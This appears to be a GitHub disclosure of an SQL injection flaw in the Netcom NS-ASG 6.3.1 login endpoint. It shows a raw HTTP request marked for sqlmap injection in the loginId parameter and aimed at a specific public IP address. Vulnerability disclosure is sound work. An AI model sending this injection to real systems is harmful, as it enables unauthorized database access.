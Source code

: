 Netcom NS-ASG application security gateway has SQL injection vulnerability

version:NS-ASG 6.3.1

1.The login interface is as shown below

![image](https://github.com/willchen0011/cve/assets/13689053/e55e7648-8217-4ab1-8756-431747bad06c)

2.The loginId parameter exists and is injected into the database name through sqlmap.

```
GET /admin/singlelogin.php?submit=1&loginId=1* HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=08de4bddc8c53141eced1b928c54290d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 1.1.1.1
Te: trailers
Connection: close
```
![image](https://github.com/willchen0011/cve/assets/13689053/b24a66bf-3225-4d95-a1e9-273cdc8a3352)

![image](https://github.com/willchen0011/cve/assets/13689053/f296291e-5120-48c3-8436-5ae8e0fd16fb)
